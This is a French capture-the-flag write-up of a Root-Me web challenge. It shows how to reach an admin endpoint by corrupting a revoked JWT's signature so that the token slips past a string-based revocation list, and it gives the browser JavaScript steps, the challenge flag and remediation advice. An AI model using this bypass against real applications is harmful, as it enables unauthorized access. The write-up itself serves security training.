




# JWT - Jeton révoqué

https://www.root-me.org/fr/Challenges/Web-Serveur/JWT-Jeton-revoque

## Découverte de la vulnérabilité

Après authentification, un JWT est stocké dans `window.t`.



**Faille** : L'application ne vérifie pas la signature des tokens révoqués. Un token révoqué avec signature corrompue passe la validation.



## Exploitation

**1. Récupération du token :**
```javascript
window.t
```

**2. Corruption de la signature :**
```javascript
window.t = window.t.slice(0, -1) + "X"
```



**3. Attente de révocation :**
Attendre **15 secondes** pour que le token soit révoqué.



**4. Accès admin :**
```javascript
fetch("/web-serveur/ch63/admin", {
    headers: { Authorization: "Bearer " + window.t }
}).then(r => r.text()).then(console.log)
```

## Résultat

**Flag** : `Do_n0t_r3v0ke_3nc0d3dTokenz_Mam3n-Us3_th3_JTI_f1eld`


## Recommandations de sécurisation

- **Toujours vérifier la signature** : même pour les tokens révoqués/expirés
- **Utiliser le champ JTI** : identifier chaque token avec un ID unique
- **Blacklist basée sur JTI** : stocker les JTI révoqués (Redis/DB), pas les tokens complets
- **Durée de vie courte** : limiter à 5-15 minutes avec refresh tokens
- **Ordre de validation** : 1) Signature → 2) Expiration → 3) Révocation
